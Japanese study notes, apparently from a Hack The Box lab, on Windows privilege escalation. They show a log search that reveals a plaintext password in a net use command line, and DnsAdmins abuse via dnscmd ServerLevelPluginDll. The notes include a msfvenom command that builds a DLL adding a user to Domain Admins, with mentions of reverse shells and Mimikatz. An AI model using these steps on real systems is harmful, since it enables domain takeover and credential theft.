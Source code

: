 ### Get-WinEventを使用したセキュリティログの検索
- プロセスコマンドラインに/userが含まれるプロセス作成イベント（4688）をフィルタリングしている
```powershell-session
PS C:\htb> Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}

CommandLine
-----------
net use T: \\fs01\backups /user:tim MyStr0ngP@ssword
```
- Get-WinEvent でセキュリティイベントログを検索するには、管理者権限が必要
- レジストリキー `HKLM\System\CurrentControlSet\Services\Eventlog\Security` の権限を調整する必要がある
- Event Log Readersグループのメンバーシップだけでは不十分


## DNSAdmins
Windowsの組み込みグループ DnsAdminsについて
- DnsAdminsグループのメンバーは、DNSサーバーの設定を変更する権限を持つ
	- DNSサービス自体は「NT AUTHORITY\SYSTEM」という、Windowsで一番強い権限で動いていることが多い
	- Windows DNSサービスはカスタムプラグインをサポートしており、ローカルでホストされているどのDNSゾーンの範囲外にある名前解決クエリに対して、それらのプラグインの関数を呼び出す
	- DNSはドメインコントローラー上で実行されている場合が多い

**権限の確認**
```powershell-session
C:\htb> Get-ADGroupMember -Identity DnsAdmins

distinguishedName : CN=netadm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : netadm
objectClass       : user
objectGUID        : 1a1ac159-f364-4805-a4bb-7153051a8c14
SamAccountName    : netadm
SID               : S-1-5-21-669053619-2741956077-1013132368-1109    
```

### DLLローディング
- DNSサービスに悪意のあるプログラムを動かさせる 
	- DnsAdminsメンバーは、DNSサービスが起動するときに読み込む「DLL」というプログラムを指定できる
	- 組み込みの dnscmd ユーティリティを使用して、プラグインDLLのパスを指定することが可能
	- 攻撃者は自分が作った悪意のあるDLLを指定する
	- DNSサービスが再起動されると、その悪意のあるDLLが**SYSTEM権限で実行されてしまう！**
	- これにより、簡単にドメイン管理者権限を奪取したり、自由にコマンドを実行したりできる
**流れ**
- DNS管理はRPC経由で行われる。
- ServerLevelPluginDll を使用すると、DLLのパスの検証なしにカスタムDLLをロードできる。これはコマンドラインから dnscmd ツールを使用して実行できる。
- DnsAdminsグループのメンバーが以下の dnscmd コマンドを実行すると、`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` レジストリキーが設定される。
- DNSサービスが再起動されると、このパス（ドメインコントローラーのマシンアカウントがアクセスできるネットワーク共有など）にあるDLLがロードされる。
- 攻撃者はカスタムDLLをロードしてリバースシェルを取得したり、MimikatzのようなツールをDLLとしてロードして認証情報をダンプしたりすることができる。

悪意のあるDLLの作成
- msfvenom を使用して、ドメイン管理者グループにユーザーを追加する悪意のあるDLLを生成できる
	- また、Mimilib.dllも使用することができる
```shell-session
snowyowl644@htb[/htb]$ msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```
